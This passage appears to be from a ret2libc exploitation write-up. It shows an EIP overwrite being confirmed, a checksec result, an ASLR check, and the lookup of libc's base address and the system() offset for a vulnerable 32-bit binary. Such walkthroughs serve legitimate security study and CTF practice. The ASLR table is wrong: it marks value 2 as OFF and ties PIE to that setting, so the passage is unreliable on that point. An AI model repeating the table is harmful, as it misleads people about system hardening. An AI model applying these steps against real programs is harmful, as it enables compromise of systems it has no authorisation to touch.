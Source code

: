 {% hint style="info" %}
**EIP:** 0x42424242 \('BBBB'\)  **CORRECT RESULT**
{% endhint %}

* **Check Security**

With `gdb-peda` : 

```text
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
gdb-peda$ 
```

To check ASLR you can check the following file on the target machine:

```text
cat /proc/sys/kernel/randomize_va_space
```

Checking the results:

| Result | ASLR | PIE |
| :---: | :---: | :---: |
| 0 | OFF | OFF |
| 1 | ON | ON |
| 2 | OFF | OFF |

* **Finding Addresses**

#### - libc.so.6

```text
❯ ldd rop                 
        linux-gate.so.1 =>  (0xb7fda000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)
        /lib/ld-linux.so.2 (0xb7fdb000)
```

{% hint style="info" %}
**libc.so.6**: /lib/i386-linux-gnu/libc.so.6 \(0xb7e19000\)
{% endhint %}

#### - system

```text
❯ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
</.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system            
   245: 00112f20    68 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   627: 0003ada0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```
